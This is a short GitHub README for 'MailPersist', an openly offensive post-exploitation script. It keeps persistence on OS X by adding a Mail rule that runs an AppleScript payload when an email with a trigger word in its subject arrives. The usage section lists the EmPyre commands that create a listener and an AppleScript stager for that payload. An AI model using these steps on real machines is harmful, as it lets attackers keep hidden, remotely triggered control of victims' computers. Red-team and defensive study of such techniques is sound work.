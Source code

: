 # MailPersist - Post-exploitation script for OS X persistance 

## ABOUT:
This script creates a new rule in the OS X Mail application to automatically trigger an appleScript payload when an email is recieved using a trigger word in the subject of the email.

## INSTALL:

All dependancies are met on a default installation of OS X.  With that said, you will likely want to use EmPyre to create your appleScript payload. 
https://github.com/adaptivethreat/EmPyre

## USAGE:
Creating an appleScript payload with Empyre:
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
Open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  
